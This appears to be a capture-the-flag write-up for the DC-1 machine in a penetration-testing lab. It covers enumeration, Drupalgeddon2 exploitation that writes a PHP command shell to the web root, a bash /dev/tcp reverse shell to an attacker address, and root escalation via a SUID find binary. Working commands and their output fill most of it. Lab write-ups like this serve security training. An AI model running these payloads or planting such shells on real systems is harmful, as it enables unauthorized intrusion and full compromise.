```yaml
---
layout: post
author: H4
---
```


Vulnhub resource:
[Details](https://www.vulnhub.com/entry/dc-1,292/)
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration

Performing a `nmap` scan to identify the attack surface of the target.

## nmap
```bash
nmap 192.168.200.193       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 13:38 EDT
Nmap scan report for 192.168.200.193
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

## web server (port 80)
- `gobuster` did not reveal anything useful on the web server on port `80`
- website with drupal installation  

> maybe vulnerable to `druaplgeddon`
{: .prompt-info }

---

# exploitation
## durpalgeddon2
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```

```bash
ruby drupalgeddon2.rb http://192.168.200.193/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.200.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.200.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.200.193/includes/bootstrap.inc    (HTTP Response: 403)
[+] Header : v7 [X-Generator]
[!] MISSING: http://192.168.200.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/includes/database.inc    (HTTP Response: 403)
[+] Found  : http://192.168.200.193/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.200.193/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZFKXPOT
[+] Result : OZFKXPOT
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.200.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.200.193/shell.php' -d 'c=hostname'
DC-1>> whoami
www-data
```

Yay! RCE works!

---

# post exploitation
## full reverse shell
`drupalgeddon` deploys a simple `shell.php` and we will exploit this to get a cute reverse shell.

### listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

### on target machine
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.200/80 0>&1'`
```http
GET /shell.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.200/80+0>%261' HTTP/1.1
Host: 192.168.200.193
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: has_js=1
Connection: close
```

### catch reverse connection
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.200.193: inverse host lookup failed: Unknown host
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.193] 45807
bash: no job control in this shell
www-data@DC-1:/var/www$ whoami
whoami
www-data
```

### make it beautiful
```bash
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ export TERM=xterm
export TERM=xterm
```

hit CTRL+Z
```bash
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -lvp 80
stty raw -echo; fg                                                                 
[1]  + continued  nc -lvp 80

www-data@DC-1:/var/www$ whoami 
www-data
```
Now we got a fully interactive shell with autocomplete etc. :)

## first flag
```bash
www-data@DC-1:/var/www$ cd /
www-data@DC-1:/$ cd home
www-data@DC-1:/home$ ls
flag4  local.txt
www-data@DC-1:/home$ cat local.txt
7******************************8
```

## privilege escalation
### check for suid binaries
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount
-rwxr-sr-x 1 root ssh 128396 Jan 27  2018 /usr/bin/ssh-agent
-rwsr-sr-x 1 daemon daemon 50652 Oct  4  2014 /usr/bin/at
-rwxr-sr-x 1 root mlocate 30492 Sep 25  2010 /usr/bin/mlocate
-rwxr-sr-x 1 root mail 17908 Nov 18  2017 /usr/bin/lockfile
-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 49364 Feb 27  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 9708 Jun 11  2012 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn
-rwxr-sr-x 1 root mail 9768 Nov 30  2014 /usr/bin/mutt_dotlock
-rwxr-sr-x 1 root tty 18020 Dec 10  2012 /usr/bin/wall
-rwxr-sr-x 1 root crontab 34760 Jul  4  2012 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 18168 Feb 27  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
-rwxr-sr-x 1 root mail 13960 Dec 12  2012 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 4972 Feb 21  2011 /usr/lib/utempter/utempter
-rwxr-sr-x 1 root shadow 30332 May  5  2012 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs
```
> `find` looks juicy! Check [gtfobins](https://gtfobins.github.io/) on how to exploit `find` to gain `root` access.
{: .prompt-info }

```bash
www-data@DC-1:/home$ whereis find
find: /usr/bin/find /usr/bin/X11/find /usr/share/man/man1/find.1.gz
www-data@DC-1:/home$ find . -exec /bin/sh \; -quit    
# whoami
root
```
There we go!

## second flag
```bash
# cd /root
# ls
proof.txt  thefinalflag.txt
# cat proof.txt
0******************************1
```
  
Pwned! <@:-)
